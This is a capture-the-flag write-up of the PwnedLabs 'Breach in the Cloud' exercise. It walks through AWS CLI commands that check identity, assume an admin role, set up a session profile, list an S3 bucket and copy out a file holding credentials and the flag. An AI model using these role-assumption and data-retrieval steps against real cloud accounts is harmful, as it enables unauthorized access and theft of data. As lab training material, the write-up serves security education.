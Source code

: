 ## 🚨 PwnedLabs - Breach in the Cloud

### Scenario
The Huge Logistics security team has provided you with credentials and logs following unusual activity. Your task is to investigate and confirm a potential breach.

**Access Key ID:** `REDACTED_FOR_LAB`  
**Secret Access Key:** `REDACTED_FOR_LAB`

---

### Step 1: Check Identity with AWS CLI

```bash
aws sts get-caller-identity
```

![Screenshot](images/pasted_image_20250518211436.png)

---

### Step 2: Analyze CloudTrail Logs
Logs showed attempted access to a bucket named `emergency-data-recovery`:

![Screenshot](images/pasted_image_20250518211819.png)

Also, the `AssumedRole` mechanism was used to escalate privileges:

![Screenshot](images/pasted_image_20250518212624.png)

---

### Step 3: Assume Admin Role
Successfully assumed an admin role:

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::107513503799:role/AdminRole \
  --role-session-name MySession
```

![Screenshot](images/pasted_image_20250518212759.png)

Configured profile:

```bash
aws configure --profile assumed-admin
aws configure set profile.assumed-admin.aws_session_token "<session_token>"
```

---

### Step 4: S3 Enumeration

Initial attempt:
```bash
aws s3 ls --profile assumed-admin
```

Resulted in access denied:
![Screenshot](images/pasted_image_20250518212909.png)

---

But listing the specific bucket worked:
```bash
aws s3 ls s3://emergency-data-recovery --profile assumed-admin
```

![Screenshot](images/pasted_image_20250518213016.png)

---

### Step 5: Retrieve Evidence
```bash
aws s3 cp s3://emergency-data-recovery/emergency.txt ./ --profile assumed-admin
```

The file contained credentials and the flag:

![Screenshot](images/pasted_image_20250518213151.png)

---
